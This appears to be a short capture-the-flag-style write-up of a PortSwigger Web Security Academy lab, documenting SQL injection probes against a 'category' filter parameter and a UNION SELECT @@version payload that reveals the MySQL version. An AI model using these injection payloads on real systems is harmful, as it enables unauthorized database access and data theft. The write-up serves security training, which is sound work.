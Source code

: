 # 4 - SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2')

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------

Generated link: https://0aab0018030112cfc1c781f9007c009c.web-security-academy.net/

Filtering using GET parameter “category”: "/filter?category=Accesories"

/filter?category=Accesories -> Return 4 items

/filter?category=Accessories';# -> Return 4 items, the query is finished

/filter?category=Accessories'+and+'1'='1  -> Return 4 items

/filter?category=Accessories'+and+'1'='0  -> Return 0 items

/filter?category=Accessories'+union+select+0,@@version;# -> Print version

```
GET /filter?category=Accessories'+union+select+0,@@version;# HTTP/2
``` 

![img](images/4%20-%20SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/1.png)
